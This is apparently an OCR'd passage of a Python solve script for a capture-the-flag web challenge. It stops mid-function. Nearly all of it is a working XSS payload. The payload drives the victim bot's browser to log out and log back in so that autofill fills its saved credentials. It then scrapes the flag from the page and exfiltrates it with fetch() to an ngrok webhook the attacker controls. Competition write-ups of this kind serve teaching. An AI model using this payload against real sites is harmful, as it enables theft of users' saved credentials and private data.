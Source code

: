 ```py
    bot_url = "https://bot.completely-dangerous.ctf.towerofhanoi.it"
app_url = "https://localhost:5000"
if not local:
    app_url = "https://completely-dangerous.ctf.towerofhanoi.it"

ngrok_tunnel = ngrok.connect(5050)
webhook_url = ngrok_tunnel.public_url

username='xssthis'
password='xssisfun'

from flask import Flask, render_template

app = Flask(__name__)

@app.route('/x', methods=['GET'])
def x():
    bot_credentials_app_url = "https://chall:5000" if local else app_url
    return render_template('x.html', username=username, password=password, app_url=bot_credentials_app_url)

import base64
from threading import Thread

def encode_base64(data):
    """Encode data to base64."""
    if isinstance(data, str):
        data = data.encode('utf-8')
    return base64.b64encode(data).decode('utf-8')

xss_payload = f"""<script>
const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
(async () => {{
    w = window.open('/')
    await sleep(1000);
    logoutbtn = w.document.getElementsByClassName('logout-btn')
    if (logoutbtn.length > 0) {{
        // click logout button if exists
        w.document.getElementsByClassName('logout-btn')[0].click();
        await sleep(500);
    }}
    // look for <a href="/login">Login</a> tag and click it
    w.document.querySelector('a[href="/login"]').click();
    // wait for autofill
    await sleep(1000);
    w.document.getElementsByClassName('btn')[0].click();
    // wait for redirect / login
    await sleep(1000);
    // extract flag from body
    const body = w.document.body.innerHTML;
    const flagMatch = body.match(/toh\\{{([^}}]+)\\}}/);
    if (flagMatch) {{
        const flag = flagMatch[1];
        fetch('{webhook_url}/?flag=' + encodeURIComponent(flag), {{ 'mode': 'no-cors' }});
    }} else {{
        console.error('Flag not found in body:', body);
    }}
}})();
</script>
"""

def store_xss_payload():
    # assuming session has user authentication
```